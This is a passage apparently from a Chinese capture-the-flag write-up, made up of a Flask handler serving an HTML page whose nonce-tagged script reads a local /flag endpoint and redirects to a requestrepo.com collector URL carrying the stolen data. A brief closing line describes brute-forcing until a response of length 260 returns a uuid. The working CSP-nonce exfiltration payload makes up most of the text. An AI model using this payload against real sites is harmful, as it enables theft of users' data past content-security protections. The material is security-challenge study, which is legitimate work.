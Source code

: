 ```python
    return """
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>CSP with Nonce Example</title>
  <!-- 将生成的 nonce 值传递到前端脚本 -->
  <script>
    const nonce = 'XssFun';  // 这里替换为实际的 nonce
  </script>
  <!-- 在 script 标签中使用 nonce -->
  <script nonce="XssFun">
    // 在这里执行你的 JavaScript 代码，例如访问本地 /flag 路由并获取回显
    
    fetchData()
    
    // 定义获取数据的函数
    async function fetchData() {
      try {
        const response = await fetch('http://127.0.0.1:8080/flag');
        const data = await response.text();  // 使用 text() 获取字符串形式的响应
        location.href="http://wli9jb94.requestrepo.com/?data="+encodeURIComponent(data)
        

      


        
        
      } catch (error) {
        console.error('Error fetching data:', error);
      }
    }
    
  </script>
</head>
<body>
  <!-- 在此可以添加其他 HTML 内容 -->
</body>
</html>
    """

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=3000)

```

然后不断地爆破。知道出现长度是260的。就有uuid返回
